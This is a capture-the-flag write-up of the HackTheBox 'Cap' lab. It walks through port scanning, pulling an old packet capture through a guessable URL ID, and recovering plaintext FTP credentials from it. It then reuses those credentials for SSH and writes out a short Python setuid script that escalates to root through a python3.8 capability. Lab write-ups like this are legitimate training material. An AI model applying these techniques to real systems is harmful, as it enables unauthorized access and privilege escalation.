







This will be a detailed walkthrough of the 'Cap' lab from the HackTheBox labs platform. Feel free to follow along!

To start, we need to see what services we can interact with on the target machine. I'll be using `nmap` to accomplish this.

```bash
nmap -p- -A -vv --stats-every=2s -oX scan.xml 10.10.10.245
```

To explain each flag, `-p-` essentially scans all 65535 TCP ports, to make sure no stone goes unchecked.
`-A` means we're doing an aggressive scan, enabling OS detection, version detection of services, script scanning, and traceroute.
`-vv` means double verbosity, this just gives us a little more insight when scanning a port and also gives me live updates of when a port is found to be open, even before the scan is completed.
`--stats-every=2s` simply gives me an update of the scan's progress every 2 seconds, because I'm impatient.
`-oX scan.xml` outputs our scan to an XML file, which I can take for offline viewing or another purpose I'll show in a moment.

Using `xsltproc`, we can format our nmap scans and turn them into webpages. This is very useful if you want a more highlighted view of your scans.

```bash
xsltproc scan.xml -o scan.html
```

Upon opening our new webpage, we can see three ports open.



For the sake of that image being terribly small, here is the CLI output as well.

```bash
PORT      STATE    SERVICE       REASON         VERSION
21/tcp    open     ftp           syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open     ssh           syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:         
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl
9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI=
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH
80/tcp    open     http          syn-ack ttl 63 Gunicorn
| http-methods:                      
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn
|_http-title: Security Dashboard
```

From here, we should enumerate each port and find out as much information as we can. 

#### 21/FTP

Port 21? FTP is typically vulnerable to two kinds of attacks/misconfigurations without credentials. Older versions can be vulnerable to unauthenticated remote code execution, while another possibility is the use of anonymous access. Anonymous access is where anyone using the name `anonymous` can connect and potentially have access to sensitive material. To check for this, we can use `netexec`.

```bash
┌──(kali㉿kali)-[~/cap]
└─$ nxc ftp 10.10.10.245 -u anonymous -p literallyanything                    
FTP         10.10.10.245    21     10.10.10.245     [-] anonymous:literallyanything (Response:530 Login incorrect.)
```

Unfortunately, this was not the easy win we were looking for. We can now potentially check and see if the version is vulnerable.

Using `searchsploit`, we can see if there are any pre-defined exploits for this version of vsftpd.

```bash
┌──(kali㉿kali)-[~/cap]
└─$ searchsploit vsftpd 3.0.3                                                                                   
 Exploit Title  |  Path | vsftpd 3.0.3 - Remote Denial of Service | multiple/remote/49719.py

Shellcodes: No Results
```

Unfortunately, the only one that came back was denial of service. This will not gain us any further access, and if it were a real client, serves no purpose to them besides hurting their business. For now, we should keep FTP in the back of our minds and move on to other services.

#### 22/SSH

SSH is usually only prone to a few things, that rarely act as our initial access. We could use something like `hydra` to spray usernames/passwords, but we have no idea what a potential list would look like yet. So we'll keep this in the back of our mind and move on.

#### 80/HTTP

Now, moving on to the main event. HTTP is very often going to be your foothold on these kinds of machines, as if the site is interactive/dynamic, there's a lot of potential backend technologies we could potentially compromise and get code execution, or some kind of file read on the server.

Upon opening the website, I'm already logged in as a "Nathan" user, on some kind of security dashboard.



Something interesting to take note of is the "Security Snapshot" page, which contains 5 seconds of traffic to download as a PCAP. Unfortunately, it doesn't seem to be working, as there are 0 packets available for download.



I did however, notice that this packet capture has an ID of `17`. In our URL, we can see which one we're currently viewing.

```bash
http://10.10.10.245/data/17
```

What happens if we try to look at older packet captures?

```bash
http://10.10.10.245/data/0
```

Packet capture `0` seems to have much more information! Let's take a look at this one.


In Wireshark, upon opening the protocol hierarchy to get a glimpse of what's in here, we can see non-encrypted FTP traffic immediately. 



This is amazing news for us, as this often includes the login process, which should give us plain-text credentials.

```
220 (vsFTPd 3.0.3)

USER nathan

331 Please specify the password.

PASS Buck3tH4TF0RM3!

230 Login successful.

SYST

215 UNIX Type: L8

PORT 192,168,196,1,212,140

200 PORT command successful. Consider using PASV.

LIST

150 Here comes the directory listing.
226 Directory send OK.

PORT 192,168,196,1,212,141

200 PORT command successful. Consider using PASV.

LIST -al

150 Here comes the directory listing.
226 Directory send OK.

TYPE I

200 Switching to Binary mode.

PORT 192,168,196,1,212,143

200 PORT command successful. Consider using PASV.

RETR notes.txt

550 Failed to open file.

QUIT

221 Goodbye.
```

I was correct! It seems the Nathan user we saw earlier is also a user of FTP. We can now use `netexec` to make sure these credentials are valid.

```bash
┌──(kali㉿kali)-[~/cap]
└─$ nxc ftp 10.10.10.245 -u nathan -p Buck3tH4TF0RM3!     
FTP         10.10.10.245    21     10.10.10.245     [+] nathan:Buck3tH4TF0RM3!
```

Awesome! While we have `netexec` here, let's try these same credentials on SSH just in case.

```bash
┌──(kali㉿kali)-[~/cap]
└─$ nxc ssh 10.10.10.245 -u nathan -p Buck3tH4TF0RM3!
SSH         10.10.10.245    22     10.10.10.245     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
SSH         10.10.10.245    22     10.10.10.245     [+] nathan:Buck3tH4TF0RM3!  Linux - Shell access!
```

Glad I tested! Now we have a foothold on the machine. Let's see what information we can get from FTP first, however.

```bash
ftp nathan@10.10.10.245
```

There seems to be a few files present, as seen below.

```
ftp> dir
229 Entering Extended Passive Mode (|||52092|)
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       975444 Jan 01 04:48 linpeas.sh
-rw-rw-r--    1 1001     1001       144466 Jan 13 11:02 log
drwxr-xr-x    3 1001     1001         4096 Jan 13 10:45 snap
-r--------    1 1001     1001           33 Jan 13 10:39 user.txt
226 Directory send OK.
ftp> mget *
```

Awesome! `user.txt` is our user flag.



The other two files are artifacts from another player, however. Now that we've enumerated FTP, let's SSH in and see how we can escalate our privileges to root.

```
ssh nathan@10.10.10.245
```

One quick check I like to make when we have a shell with credentials, is `sudo -l`. This quickly will tell us what commands we can run as `sudo`, which could be a quick win if present.

```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

Unfortunately, not the case today.

Now, I will run one of the greatest scripts of all time, [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/tag/20260101-f70f6a79). This script will check for most privilege escalation vectors, and can be another quick win if something is present. Even if something isn't present, linpeas will give us a better idea and sense of the machine we're on. It will tell us services, network information, user information, etc.

```bash
nathan@cap:~$ ./linpeas.sh
```

We will get a ton of output, more then I can show here, but the legend will help you a lot in pointing out what is useful and what isn't.

```bash
LEGEND:                                                                      
  RED/YELLOW: 95% a PE vector               
  RED: You should take a look into it                                         
  LightCyan: Users with console                                    
  Blue: Users without console & mounted devs                     
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)                                                                             
  LightMagenta: Your username
```

Upon running the script, we get a lot of interesting things, but anything in red/yellow should be noted immediately. Below, I found this entry.



What this means, is that `python3.8` can set user ID. This doesn't sound that bad, until this literally means we can change what user we want to run something as. We can find different user IDs from the `/etc/passwd` file.

```
nathan@cap:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
nathan:x:1001:1001::/home/nathan:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

We can make a simple python script to spawn a new `bash` shell.

```Python
import os
os.setuid(112)
os.system('/bin/bash')
```

For fun, I'm setting the user ID to 112 so that way, we should become the FTP user. 

```Bash
nathan@cap:/tmp$ python3.8 exploit.py 
ftp@cap:/tmp$ whoami
ftp
ftp@cap:/tmp$
```

As we can see, it works! Now, as seen in `/etc/passwd`, the `root` user has an ID of 0. Let's set our ID to that and finish the box.

```Bash
nathan@cap:/tmp$ python3.8 exploit.py 
root@cap:/tmp# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```



Now we have our root flag! 

I wrote this as the first of many writeups I plan on eventually posting here. This box is still free, and most of the other boxes I've rooted are still active, which means I can't write about them just yet :(

Check back for more though! As season 9's labs get retired, I plan to publish a post for each of them. Thanks for reading!